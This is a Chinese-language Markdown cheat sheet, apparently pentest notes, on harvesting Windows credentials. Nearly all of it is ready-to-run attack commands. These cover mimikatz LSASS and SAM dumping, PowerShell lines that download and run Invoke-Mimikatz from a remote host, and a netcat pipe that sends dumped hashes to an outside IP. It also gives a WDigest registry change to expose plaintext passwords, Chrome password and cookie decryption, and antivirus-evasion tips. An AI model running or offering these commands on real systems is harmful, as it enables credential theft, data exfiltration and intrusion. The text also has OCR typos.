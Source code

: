 # 凭证信息收集

## 凭证获取工具

常用来获取 windows 密码的工具:
1、mimikatz
2、wce
3、pwddump7
4、ophcrack
5、procdump+mimikatz
6、LaZagne

密码 HASH
LM & NTLM

Windows 本地 hash:
https://www.secpulse.com/archives/65256.html

Vindows 系统下 hash 密码格式:
用户名称:RID:LM-HASH 值:NT-HASH 值

## Mimikatz

mimikatz For Win10T 载:

https://github.com/gentilkiwi/mimikatz/releases

本地非交互式凭证获取:

```ts
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" " exit"
// mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

**1x 版本:**

```sh
privilege::debug       //提升权限
inject::process lsass.exe sekurlsa.dl   //注入sekurlsa.dl到lsass.exe进程里
@getLogonPasswords     //获取密码
```

**Powershell 远程加载 mimikatz 脚本**

```ts
// IEX是加载到内存中执行的。
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds"
```

杀软绕过: 1.大写小写。 2.用+号 拼凑。。
[Mimikatz 的 18 种免杀姿势及防御策略](https://www.freebuf.com/articles/system/234365.html)

```ts
v2.0 https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1
v2.2 https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/tools/Invoke-Mimikatz.ps1
```

输出重定向

```sh
攻击机: nc -lvvp 6666 > pass123.txt
靶机  : mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit" | nc.exe -v 47.101.214.85 6666
```

powershell IEX (New-Object Net.WebClient).DownloadString('https://127.0.0.1/f');Get-PassHashes // 不好使

### windows server 2012 及以上的系统明文

通过添加注册表，再通过例如锁屏、注销或重启等操作，让管理员重新登录及可以读取明文。

```sh
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

### FAQ 不能执行 powershell 远程命令

```ps
set-ExecutionPolicy RemoteSigned
或 Set-ExecutionPolicy -Scope CurrentUser
get-ExecutionPolicy
```

## 导出密码的几种方式

https://www.daimajiaoliu.com/daima/486f56b9d900403

procdump 导出

```ts
procdump64.exe -accepteula -ma lsass.dmp
mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

## wce 获取明文密码 win7 及以下

wce -w

## pwddump7 获取 hash

Pwddump7.exe > pass.txt
https://www.objectif-securite.ch/ophcrack

如果网站无法破解出 hash 值·我们可以使用 ophcrack 工具配合彩虹表自己破解.
工具下载:https://ophcrack.sourceforge.io/
彩虹表:
https://ophcrack.sourceforge.io/tables.php
http://project-rainbowcrack.com/table.htm

## Procdump+Mimikatz

Procdump lsass 进程导出:
For 32bits: procdump.exe -accepteula -ma lsass.exe lsass.dmp
For 64bits: procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
然后使用 mimikatz 还原密码:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"

## 注册表导出 hash

reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
导出后可以使用 cain 导人 system.hiv.security.hiv 获取统存中的明文信息.
mimikatz "lsadump sam /system:system.hiv /sam:sam.hiv" exit

python3 -m pip install impacket
windows: python secretsdump.py -sam sam.hiv -security security.hiv-system system.hiv LOCAL
linux: impacket -secretsdump -system system.hiv -ntds ntds.dit LOCAL

## sharpdump

## Windows Wifi 密码的获取

netsh wlan show profile
netsh wlan show profile name="ssid" key=clear

## 看 hosts

C:\Windows\System32\drivers\etc\hosts

## Windows IIS config

lIS6:
cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/1/root

IIS7,8:
列出网站列表:%systemroot%/system32/inetsrv/appcmd.exe list site
列出网站物理路:%systemroot%\system32\inetsr\appcmd.exe list vdir
Mimikatz 读取 lIS7 配置文件密码:
mimikatz.exe privilege:debug log "iis:apphost /in:"%systemroot%\system32\inetsr\config\applicationHost.config" /live" exit

## windows 回收站信息获取

FOR /f "skip=1 tokens=1,2 delims=" %c in ('wmic useraccount get name^,sid') do dir /a/b C:\$Recycle.Bin\%d\ ^>%c.txt

## Chrpme 的密码和 cookie 获取

%localappdata%\Google\chrome\USERDA~1\default\LOGIND~ 1
%localappdata%\Google\chrome\USERDA~1\default\cookies

chrome 的用户信息·保存在本地文件为 sqlite 数据库格式

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit # 读 chrome 密码

## **lazagne** 综合获取信息
